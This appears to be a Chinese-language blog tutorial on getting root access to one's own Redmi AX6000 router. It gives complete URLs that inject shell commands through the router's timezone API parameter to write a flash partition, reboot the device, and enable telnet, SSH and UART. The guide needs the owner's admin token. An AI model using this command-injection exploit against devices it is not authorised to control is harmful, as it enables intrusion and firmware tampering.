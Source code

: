

需要利用老版本的漏洞才能开启ssh, 所以需要手动降级。



如果显示“不允许降级”，就把网址最后面数字改成0或者2试试。





其他降级版本

- 固件：[Redmi AX6000 1.0.60](https://beyondkmp.com/image/ax6000_ssh/miwifi_rb06_firmware_7ddeb_1.0.60.bin) 
- **1.0.67的也可以降级的。 我最后选的是这个。** 
- 不要用1.2.128版本，那个没有5g wifi，固件问题。

## 获取token

登陆小米路由器admin，浏览器地址栏`stok=`后面部分就是token, 这个token是每次登录都会变化，后面都会用到这个token。如果重新登录后，都要重新复制这个token.

![获取token](https://cdn.jsdelivr.net/gh/mafulong/mdPic@vv8/v8/202403081125383.png)

## 开启开发者模式

**更改路由器的crash分区，使其进入到开发者模式**

将下面的URL里面的stok=token的token替换成上面获取路由器的token值，然后复制到到浏览器并且按enter打开

```scala
http://192.168.31.1/cgi-bin/luci/;stok=token/api/misystem/set_sys_time?timezone=%20%27%20%3B%20zz%3D%24%28dd%20if%3D%2Fdev%2Fzero%20bs%3D1%20count%3D2%202%3E%2Fdev%2Fnull%29%20%3B%20printf%20%27%A5%5A%25c%25c%27%20%24zz%20%24zz%20%7C%20mtd%20write%20-%20crash%20%3B%20
```

浏览器返回{“code”:0}，表示成功。

**通过浏览器重启路由器**

在浏览器地址栏输入下面的url, 和上面的做法一样，将stok=token的token替换成上面获取路由器的token值

```scala
http://192.168.31.1/cgi-bin/luci/;stok=token/api/misystem/set_sys_time?timezone=%20%27%20%3b%20reboot%20%3b%20
```

## 设置Bdata参数

**设置参数telnet_en、 ssh_en、uart_en**

重启后，要重新获取token, 然后在浏览器地址栏输入下面的url, 将stok=token的token替换成上面获取路由器的token值

```scala
http://192.168.31.1/cgi-bin/luci/;stok=token/api/misystem/set_sys_time?timezone=%20%27%20%3B%20bdata%20set%20telnet_en%3D1%20%3B%20bdata%20set%20ssh_en%3D1%20%3B%20bdata%20set%20uart_en%3D1%20%3B%20bdata%20commit%20%3B%20
```

**重启路由器**
